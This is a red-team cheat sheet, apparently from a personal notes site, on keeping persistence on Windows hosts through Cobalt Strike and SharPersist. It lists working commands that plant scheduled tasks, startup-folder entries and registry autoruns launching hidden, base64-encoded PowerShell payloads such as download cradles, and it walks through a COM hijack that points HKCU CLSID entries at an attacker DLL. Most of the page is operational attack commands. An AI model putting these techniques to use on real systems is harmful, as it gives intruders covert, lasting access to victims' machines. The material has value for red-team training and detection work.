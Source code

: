 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Persistence
---
```


<span style="font-size: 35px; color:red"><b>Host Persistence</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Task Scheduler</b></span>
Like cronojobs in Linux.
From Powershell, encode the payload in base64 to avoid dealing with quotations.
On Windows:
```powershell
$str = '<example_powershell_command_i.e._download_cradle>'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
On Linux:
```powershell
set str '<example_powershell_command_i.e._download_cradle>'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
Then from CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -n "Updater" -m add -o hourly
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Startup Folder</b></span>
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. 
From CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -f "UserEnvSetup" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Registry Autorun</b></span>
AutoRun values in HKCU and HKLM allow applications to start on boot. 
From Cobalt Strike:
```powershell
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>COM Hijacks</b></span>
<span style="color:red"><b>HKCU and HKLM</b></span>
Finding instances of applications loading objects that for some reason don't exist anymore.
Using [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from Sysinternals, look for <span style="color:red">RegOpenKey</span> operations where the Result is <span style="color:red">NAME NOT FOUND</span> and the Path ends with <span style="color:red">InprocServer32</span>.
Look for someone that's loaded semi-frequently (i.e. something that loads when a common application is started - Excel, Word, Outlook...).
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should list the entry
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should return "Cannot find path..."
```
To exploit this, set HKCU path to the .dll exploit:
```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "<path_to_dll_exploit>"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.
&nbsp;

<span style="color:red"><b>Task Scheduler</b></span>
Find tasks that use custom triggers to call COM objects:
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Then search the task name in the Task Scheduler and check the Status and the Triggers > Details of the tasks listed with the script above.
```powershell
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize  <-- this should list the entry
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"  <-- this should return "Cannot find path..."
```
Add a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.
